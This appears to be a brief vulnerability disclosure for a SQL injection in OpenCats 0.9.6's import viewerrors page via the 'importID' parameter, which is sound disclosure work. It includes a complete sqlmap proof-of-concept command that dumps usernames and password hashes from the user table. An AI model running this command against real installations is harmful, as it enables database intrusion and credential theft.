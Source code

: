# SQL injection vulnerability in OpenCats 'Import viewerrors' functionality.

OpenCats version 0.9.6 PHP7.2 suffers from SQL injection vulnerability. This allows attackers control over the application's database.

User has control over entriesPerPage variable, which allows SQL injection in SELECT statement via GET 'importID' parameter.

#Poc
Decided to test this with sqlmap. Let's exfiltrate username and password hashes from the database.  

```
sqlmap -u "http://192.168.203.135/opencats/index.php?m=import&a=viewerrors&importID=1" --cookie="CATS=cl2201l24aihqlnch0jgnr4pd2" -T user -C user_id,user_name,password -p "importID" --flush-session --dump
```

https://user-images.githubusercontent.com/57464251/193700025-eea03a93-4b73-4b44-8a38-d93913954a59.mp4
